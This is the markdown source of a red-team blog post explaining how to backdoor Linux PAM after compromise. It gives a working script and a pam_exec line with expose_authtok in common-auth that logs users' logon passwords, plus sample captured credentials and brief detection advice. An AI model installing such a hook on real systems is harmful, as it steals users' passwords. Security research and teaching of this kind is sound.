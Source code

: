 ```yaml
---
title: "Post Exploitation: Sniffing Logon Passwords with PAM"
date: 2022-06-26T22:50:18-08:00
draft: true
tags: [
        "pentest", "red","research"
    ]

twitter:
  card: "summary_large_image"
  site: "@wunderwuzzi23"
  creator: "@wunderwuzzi23"
  title: "Post Exploitation: Sniffing Logon Passwords with PAM"
  description:  "Living off the land PAM usage to install a backdoor for password sniffing."
  image: "https://embracethered.com/blog/images/2022/pam.auth-config.png"
---
```



Pluggable Authentication Modules (PAM) on Unix based systems are useful to change logon behavior and enforce authentication via various means.

In "Red Team Strategies" the chapter "Protecting the Pentester" walks the reader through the configuration of a PAM module to get notified in real-time via a pop-up when someone logs on to the machine (e.g. system compromise).

But there are also **bad things** that can be done with PAM (especially post-exploitation) and this is what this post is about.

This post discusses a living-off-the-land PAM tactic that grabs passwords of logons, and we also discuss detection techniques.

Let's get going.

Assume that during a red team exercise a Linux host was compromised.

### Creation of the toomanysecrets.sh script

First, we create a bash script that will be invoked whenever a new authentication occurs.

```
#!/bin/sh
echo " $(date) $PAM_USER, $(cat -), From: $PAM_RHOST" >> /var/log/toomanysecrets.log
```

The variables are PAM specific and will become available via the `pam_exec.so` module. 

Here is the meaning of the variables:

* **$PAM_USER:** The username that was entered.
* **$PAM_RHOST:** The remote host (typically the IP Address)
* **$(cat -):** This reads `stdin`, and will contain the password that the script grabs
* The results are piped into a log file at `/var/log/toomanysecrets.log` 

To prevent all users from reading the file consider pre-creating it and running `chmod`, e.g.:

```
sudo touch /var/log/toomanysecrets.sh
sudo chmod 770 /var/log/toomanysecrets.sh
```

Now let's plug this script into the PAM pipeline.

### Updating the PAM configuration file `common-auth` 

Next, the PAM configuration file needs to be updated the `pam_exec` module will be used to invoke the script. 

There are various config files located in `/etc/pam.d/`, and we pick `common-auth`.

```
sudo nano /etc/pam.d/common-auth
```

On the very bottom of the file, add the following authentication module:

`auth optional pam_exec.so quiet expose_authtok /usr/local/bin/toomanysecrets.sh`

The options have the following meaning:

* **optional:** Authenticaiton shouldn't fail if there is an error (it's not a required step)
* **pam_exec.so:** This is the living off the land PAM module that can invoke arbitrary scripts 
* **expose_authtok:** This is the trick that allows to read the password via `stdin`
* **quiet:** Don't show any errors to the user (if something doesn't work)
* The last argument is the shell script that was created previously

[![PAM configuration change](/blog/images/2022/pam.auth-config.png)](/blog/images/2022/pam.auth-config.png)

Finally, make the file executable:

`sudo chmod 700 /usr/local/bin/toomanysecrets.sh`


### Logon and be surprised

Now, let's try this out and ssh from another machine, or login locally.

And then look at the log file:

```
$ sudo cat /var/log/toomanysecrets.log
 Sun Jun 26 23:36:37 PDT 2022 tom, Trustno1!, From: 192.168.1.149
 Sun Jun 26 23:37:53 PDT 2022 tom, Trustno1!, From:
 Sun Jun 26 23:39:12 PDT 2022 tom, Trustno1!, From: 192.168.1.149

```

Pretty neat, and tricky to catch.

## Mitigations

* Test EDR to catch modifications in PAM configurations (also binary patching or entirely replacing/backdooring existing ones)
* Review the PAM modules and there configuration in your environments
* Do a purple team exercise that focuses on PAM modules and related configuration files

## Conclusions

PAM modules are powerful, they can be used to lock machines down add MFA to SSH sessions or notify the user when logons occur. However, the can also be misused post-exploitation by an adversary to do a variety of things, including as shown in this post to grab credentials of users.


## References

* [pam_exec](https://linux.die.net/man/8/pam_exec)

